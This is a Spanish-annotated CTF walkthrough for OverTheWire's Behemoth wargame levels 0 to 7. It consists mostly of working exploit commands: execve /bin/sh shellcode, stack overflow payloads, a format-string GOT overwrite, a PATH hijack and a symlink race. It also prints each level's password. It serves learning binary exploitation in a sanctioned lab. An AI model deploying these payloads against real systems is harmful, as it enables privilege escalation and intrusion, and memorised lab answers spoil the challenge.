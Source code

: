 # Behemoth - LAB_4

## Behemoth0
ssh behemoth0@narnia.labs.overthewire.org -p 2221
behemoth0

~~~
cd /behemoth/
./behemoth0

ltrace ./behemoth0
./behemoth0
whoami
cat /etc/behemoth_pass/behemoth1

aesebootiv
~~~

## Behemoth1
ssh behemoth1@narnia.labs.overthewire.org -p 2221

~~~
cd /behemoth/
./behemoth1

(python -c "print 128 * 'A'") | ./behemoth1

gdb -q ./behemoth1
set disassembly-flavor intel
disas main

run < <(python -c 'print 71 * "A" + "BBBB"')
export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 20 * "\x90"')

gdb -q behemoth1
set disassembly-flavor intel
break *main
run
x/s *((char **)environ)
run < <(python -c 'print 71 * "\x90" +  "\x62\xde\xff\xff"')
continue
~~~
encontraremos la dirección de la variable SHELLCODE fuera de GDB usando el siguiente código
~~~
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
~~~

~~~
cd /tmp/
gcc -m32 find_addr.c -o find_addr
./find_addr SHELLCODE
(python -c 'print 71 * "\x90" + "\x80\xde\xff\xff"';cat) | ./behemoth1
whoami
cat /etc/behemoth_pass/behemoth2

eimahquuof
~~~

## Behemoth2
ssh behemoth2@narnia.labs.overthewire.org -p 2221

~~~
cd /behemoth/
ltrace ./behemoth2

mkdir ax
cd ax
echo "cat /etc/behemoth_pass/behemoth3" > /tmp/ax/touch
chmod 777 touch
/behemoth/behemoth2

nieteidiel
~~~

## Behemoth3
ssh behemoth3@narnia.labs.overthewire.org -p 2221

~~~
./behemoth3
gdb -q ./behemoth2
set disassembly-flavor intel
disas main
~~~

sobrescribir la llamada a puts() con una dirección contenida en las variables de entorno

~~~
objdump -R behemoth3
export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 20 * "\x90"')
gdb -q behemoth3
set disassembly-flavor intel
x/s *((char **)environ)
break *main
x/s *((char **)environ)
run
x/s *((char **)environ)

break *main+81
run
x/wx 0x080497ac
continue

/tmp/find_addr SHELLCODE
(python -c 'print "\xac\x97\x04\x08\xae\x97\x04\x08%56941x%1$hn%8586x%2$hn"';cat) | ./behemoth3
whoami
cat /etc/behemoth_pass/behemoth4

ietheishei
~~~

## Behemoth4
ssh behemoth4@narnia.labs.overthewire.org -p 2221

~~~
ltrace ./behemoth4
~~~
podríamos pausar el proceso justo después de iniciarlo
~~~
/behemoth/behemoth4&
PID=$!
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
~~~

~~~
/tmp/test.sh
Finished sleeping, fgetcing

aizeeshing
~~~

## Behemoth5
ssh behemoth5@narnia.labs.overthewire.org -p 2221

~~~
ltrace ./behemoth5
gdb -q ./behemoth5
break *main
set disassembly-flavor intel
run
disas main
x/s 0x80489e4
~~~

ejecutemos un oyente UDP local en el puerto 1337 y ejecutemos el ejecutable.

~~~
./behemoth5
nc -ulp 1337

mayiroeche
~~~

## Behemoth6
ssh behemoth6@narnia.labs.overthewire.org -p 2221

~~~
./behemoth6
./behemoth6_reader
ltrace ./behemoth6
~~~

solo necesitamos escribir un shellcode que imprima HelloKitty.

~~~
BITS 32

jmp short string

code:
	pop ecx
	xor eax, eax
	mov al, 4
	xor ebx, ebx
	inc ebx
	xor edx, edx
	mov dl, 10
	int 0x80

	mov al, 1
	dec ebx
	int 0x80

string:
	call code
	db "HelloKitty"
~~~

~~~
cd /tmp/
mkdir aux
cd aux
nasm HelloKitty.asm
ndisasm  -b32 HelloKitty
(python -c "print '\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x48\x65\x6c\x6c\x6f\x4b\x69\x74\x74\x79'") > /tmp/aux/shellcode.txt
chmod 777 shellcode.txt
/behemoth/behemoth6
whoami
cat /etc/behemoth_pass/behemoth7

baquoxuafo
~~~

## Behemoth7
ssh behemoth7@narnia.labs.overthewire.org -p 2221

~~~
ltrace ./behemoth7 AAAA
~~~
recibimos una llamada a strcpy() con nuestro argumento, intentermos desbordarlo
~~~
gdb -q ./behemoth7
set disassembly-flavor intel
run $(python -c "print 600 * 'A'")
run $(python -c "print 528 * 'A' + 'BBBB'")
run $(python -c "print 507 * '\x90' + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'BBBB'")
run $(python -c "print 528 * '\x41' + 'BBBB' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
x/500wx $esp
run $(python -c "print 528 * '\x41' + '\xe0\xd7\xff\xff' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

./behemoth7 $(python -c "print 528 * '\x41' + '\xe0\xd7\xff\xff' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
whoami
cat /etc/behemoth_pass/behemoth8

pheewij7Ae
~~~